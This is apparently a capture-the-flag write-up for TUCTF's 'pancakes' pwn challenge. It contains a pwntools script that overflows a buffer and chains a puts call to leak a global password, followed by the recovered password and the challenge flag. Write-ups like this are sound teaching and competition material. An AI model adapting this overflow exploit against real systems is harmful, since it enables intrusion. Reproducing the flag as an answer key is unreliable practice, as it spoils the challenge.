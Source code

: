 # pancakes

## PWN - Points: 500

> You ever just get a craving for pancakes?
>
> 
>
> nc chal.tuctf.com 30503
>
> [pancakes](pancakes)
>

Overflow the buffer and setup a `puts` call to print the content of the global `password`.

```python
from pwn import *


e = ELF('pancakes')

# p = process('pancakes')
p = remote('chal.tuctf.com', 30503)

p.sendlineafter('> ', 'A' * 44 + p32(e.plt['puts']) + 'AAAA' + p32(e.symbols['password']))
print p.recvall()
```

password: `l0r3m_1p5um_d0l0r_517_4m37`

flag: `TUCTF{p4nc4k35_4r3_4b50lu73ly_d3l1c10u5_4nd_y0u_5h0uld_637_50m3_4f73r_7h15}`
